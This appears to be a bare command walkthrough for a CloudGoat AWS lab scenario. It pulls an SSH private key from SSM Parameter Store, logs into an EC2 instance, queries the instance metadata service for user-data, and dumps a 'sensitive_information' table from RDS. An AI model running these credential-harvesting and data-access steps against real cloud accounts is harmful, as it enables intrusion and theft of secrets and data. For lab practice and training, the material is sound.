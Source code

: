 `aws ssm describe-parameters --profile solo`

`aws ssm get-parameter --name <private key name> --profile solo`

`echo -e "<private key>" > ec2_ssh_key`

`chmod 400 ec2_ssh_key`

`aws ssm get-parameter --name <public key name> --profile solo`

`echo -e "<public key>" > ec2_ssh_key.pub`

`aws ec2 describe-instances --profile solo`

`ssh -i ec2_ssh_key ubuntu@<instance ip>`

# BRANCH A:

`sudo apt update && sudo apt install awscli -y`

`aws lambda list-functions --region us-east-1`

`aws rds describe-db-instances --profile solo`

# BRANCH B:

`curl http://169.254.169.254/latest/user-data`

`psql -h <rds db host/ip> -U cgadmin -d cloudgoat`

`\d`

`select * from sensitive_information;`